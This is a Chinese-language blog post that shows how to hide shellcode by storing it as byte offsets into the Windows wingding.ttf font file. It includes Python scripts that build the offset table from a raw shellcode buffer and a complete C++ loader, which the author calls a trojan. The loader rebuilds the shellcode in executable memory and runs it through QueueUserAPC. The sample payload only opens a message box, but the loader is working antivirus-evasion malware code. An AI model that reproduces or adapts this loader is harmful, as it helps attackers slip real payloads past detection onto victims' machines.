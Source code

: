 # WhiteFile Offset Table Generate Shellcode

## 简介

这篇文章是我还比较菜的时候\(虽然现在也很菜\)，当时看到的时候惊为天人，大概说可以通过计算shellcode需要字符在白文件中的偏移位置，通过记录偏移位置，在不硬编码的情况下还原出shellcode，今天突然想起来，就复现一下。

## 流程

1. 寻找一个全windows都包含且不变的文件\(C:\Windows\Fonts\wingding.ttf\)
2. 遍历文件确认存在全字符\(0x00-0xff\)
3. 计算shellcode在文件内的偏移表
4. 基于偏移表还原shellcode



## 代码

计算偏移表的代码是用py写的，不是专业写算法的，这个计算可能比较low。

```text

dict = open('wingding.ttf','rb+').read();
char =0
for i in range(256):
        for p in range(len(dict)):
                if  ord(chr(dict[p])) == ord(chr(i)):
                        char +=1
                        print(char)
                        break

if char == 256:print("this file has full chars table");
```

![](../.gitbook/assets/image%20%28151%29.png)

通过一段已有的shellcode生成偏移表，我们古典主义脚本小子还是比较喜欢弹个窗。

```text

dict = open('wingding.ttf','rb+').read();

buf =  b""
buf += b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
buf += b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
buf += b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
buf += b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
buf += b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
buf += b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
buf += b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
buf += b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
buf += b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
buf += b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
buf += b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
buf += b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
buf += b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
buf += b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
buf += b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
buf += b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68"
buf += b"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c"
buf += b"\x24\x0a\x89\xe3\x68\x58\x20\x20\x20\x68\x4d\x53\x46"
buf += b"\x21\x68\x72\x6f\x6d\x20\x68\x6f\x2c\x20\x66\x68\x48"
buf += b"\x65\x6c\x6c\x31\xc9\x88\x4c\x24\x10\x89\xe1\x31\xd2"
buf += b"\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08"

char=0
offsettable=[];
for i in range(len(buf)):
	for p in range(len(dict)):
		if  ord(chr(dict[p])) == ord(chr(buf[i])):
			offsettable.append(p)
			break

#生成偏移表
if char == len(buf):print("shellcode offset tables generate success");
print(offsettable)

#测试还原shellcode
shellcode=[]
for i in offsettable:
	shellcode.append(dict[i])
```

![](../.gitbook/assets/image%20%28154%29.png)

可以还原出来，现在我们在c++把木马写出来。

```text
#include <stdio.h>
#include <Windows.h>



int main()
{	
	DWORD dwReadSize=0;
	HANDLE hFile = CreateFileA("C:\\Windows\\Fonts\\wingding.ttf", GENERIC_READ, OPEN_EXISTING, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD dwSize = GetFileSize(hFile, NULL);
	PCHAR pDict = (PCHAR)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	PCHAR lpBuffer = (PCHAR)VirtualAlloc(NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	ReadFile(hFile, pDict, dwSize, &dwReadSize, NULL);

	
	DWORD offsets[] = { 2741, 2231, 2569, 2741, 65, 203, 113, 48, 2899, 2707, 825, 48, 2845, 157, 2473, 2317, 11, 2473, 93, 363, 2473, 93, 282, 2473, 2059, 128, 2473, 2395, 95, 2473, 155, 146, 17, 1783, 2341, 64, 2173, 1, 629, 288, 19, 2215, 2473, 141, 203, 203, 2473, 2053, 83, 2473, 29, 549, 159, 1, 2255, 2473, 547, 1783, 2473, 2179, 95, 1, 2231, 721, 745, 14, 2473, 745, 2473, 1, 160, 48, 288, 48, 557, 135, 573, 645, 557, 65, 358, 2797, 387, 1717, 1, 82, 2231, 113, 80, 227, 203, 549, 2341, 19, 2473, 2179, 203, 1, 2231, 108, 2473, 363, 2089, 2473, 2179, 282, 1, 2231, 2473, 9, 2473, 1, 2315, 211, 12, 203, 282, 78, 2809, 2707, 128, 1885, 263, 211, 2399, 211, 2803, 156, 195, 2107, 421, 176, 2131, 2315, 1041, 288, 288, 288, 211, 2053, 9, 2761, 2395, 2771, 407, 126, 597, 282, 203, 2131, 2315, 195, 288, 288, 288, 211, 2053, 128, 156, 141, 141, 95, 1405, 156, 833, 47, 1915, 157, 156, 2341, 126, 173, 301, 11, 1421, 219, 151, 203, 131, 211, 43, 59, 288, 2149, 9, 211, 2803, 355, 2761, 2647, 2611, 62, 75, 597, 282, 203, 2131, 2315, 123, 288, 288, 288, 156, 221, 159, 63, 95, 156, 78, 110, 173, 209, 156, 62, 173, 126, 126, 48, 1421, 219, 151, 203, 131, 211, 721, 156, 63, 95, 95, 95, 156, 62, 13, 2059, 649, 156, 301, 221, 77, 95, 156, 221, 1903, 95, 108, 156, 31, 173, 141, 141, 48, 2845, 219, 28, 203, 23, 211, 19, 48, 2899, 2131, 13, 2125, 2131, 288, 258, 48, 557, 355, 288, 2149, 128 };
	for (int i = 0; i < sizeof(offsets)/sizeof(DWORD); i++)
	{
		lpBuffer[i] = pDict[offsets[i]];
	}
	

	HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);
	QueueUserAPC((PAPCFUNC)lpBuffer, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread, INFINITE);

	CloseHandle(hThread);
	CloseHandle(hFile);
	return 0;
}
```

可以看到还原出了shellcode。

![](../.gitbook/assets/image%20%28150%29.png)

![](../.gitbook/assets/image%20%28152%29.png)

脚本小子的任务完成了。

## LINKS

{% embed url="https://www.freebuf.com/articles/system/190740.html" %}



